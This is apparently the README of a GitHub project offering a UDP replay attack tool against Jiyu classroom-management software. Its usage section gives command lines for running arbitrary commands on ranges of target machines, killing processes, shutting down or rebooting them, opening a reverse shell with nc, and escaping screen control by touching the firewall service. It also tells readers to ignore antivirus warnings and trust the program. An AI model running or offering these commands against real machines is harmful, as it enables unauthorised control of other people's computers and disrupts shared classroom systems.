 # Jiyu-UDP-Attack-Cpp
A UDP replay attack code for Jiyu, written in C++.

中文文档见 [README_zh.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README_zh.md)

## Note
It may be misreported by antivirus software because it calls some system firewall services. Just ignore and add trust.
If you get garbled code after compiling and running, please try to change the encoding and compile. `main.cpp` works fine with GB 2312 encoding.

## Compile
Required system: Windows
Required minimum C++ version: C++11

Note: All the headers are already added into main.cpp manually. Therefore, you just need to copy/download main.cpp and compile it directly instead of adding header files.

Compile command:

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### MinGW
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

Note when using GCC / MinGW compiler:  
Make sure Windows-related library is in the library directory.  
Do not forget the compile argument `-lws_32`. If not using command line, add this argument to the compile options in your IDE.

## Usage
Start UI by simply run the program or call:
```bash
main
```

Or, run on command line:
```bash
main [-h(--help) |
  [-i(--ip) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

Arguments:
| Argument | Description | Default |
| -------- | ----------- | ------- |
| `-h(--help)` | Show help text. | |
| `-i(--ip) <IP>` | Specify the IP of target. | |
| `-p <Port>` | Specify which port to listen to. | 4705 |
| `-m(--msg) <Message>` | Specify the message to send. | |
| `-c <Command>` | Command to run on target machine. | |
| `-e <Extra Option>` | Load extra option. | |
| `-l <Loop Count>` | Specify the loop count of the command. | 1 |
| `-t <Loop Time Interval>` | Specify the loop's interval time of the command, in seconds. | 22 |
| `-n(--ncport) <NC Port>` | Specify which port for `nc` command to listen to. | 8888 |

Available options for `<Extra Option>` of `-e` argument:
| Option | Description |
| ------ | ----------- |
| `r` | Reboot the target machine. |
| `s` | Shutdown the target machine. |
| `g` | Get your current IP address and the port which Student Terminal listens to. |
| `nc` | Reverse shell. Needs Internet access on target machine. Use command `exit` to exit. |
| `break` | Get out of screen control. Needs administrator access. |
| `continue` | Recover screen control. |

Target IP available for `<IP>` of `-i(--ip)` argument:
- A direct IP. eg. `192.168.1.1`
- An IP segment, ends with `/24`. eg. `192.168.1.1/24`
- An IP segment, represented by `-`. eg. `192.168.1.2-10`  
Note:  
Only the last number of an IP is availble to be a segment.  
This is illegal: `192.168.1-80.1`

### Examples
1. Get your IP address and the port which Student Terminal listens to:

```bash  
main -e g
```

2. Get out of screen control:

Needs administrator access, mainly for MpsSvc.
```bash
main -e break
```

3. Recover screen control:

```bash
main -e continue
```

4. Send message:

Send a piece of message "Hello!" to target machine with IP `192.168.1.1`:
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

If the port which Student Terminal listens to is **4605**, use `-p <Port>` to specify the port. Send a piece of message "Hello!" to target machine with IP `192.168.1.12`:
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. Run command:

Pop up a calculator for target machines with ip `192.168.1.12` to `192.168.1.137`:
```bash
main -i 192.168.1.12-137 -c calc.exe
```

If the command to run has space in it, use a pair of quote to wrap:
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. Reverse shell:

The ip of target machine should **not** be a segment.
```bash
main -i 192.168.1.1 -e nc
```

7. Shutdown and reboot:

Shutdown:
```bash
main 192.168.1.1 -e s
```

Reboot:
```bash
main 192.168.1.1 -e r
```

8. Loop command:

Send message to target machines with IP `192.168.1.0` to `192.168.1.255`, continue to execute after 50s, totally 3 times:
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## Header Guide & Contributing Guide
If you hope to call related interfaces of this code in your own code, or develop the source code by yourself, you can focus on related code in the `header` branch, which codes in different modules are separated in different headers, and refer others by headers.
See header docs: [Jiyu-UDP-Attack-Cpp Header Docs](https://github.com/pbw-Kevin/Jiyu_udp_attack/blob/header/docs/en.md)

If you want to contribute to this code, you can raise an issue or make a pull request on the `header` branch~ If the pull request is merged, `main.cpp` will be updated in time!

## About
Inspired by: [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack)

## License
[MIT License](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
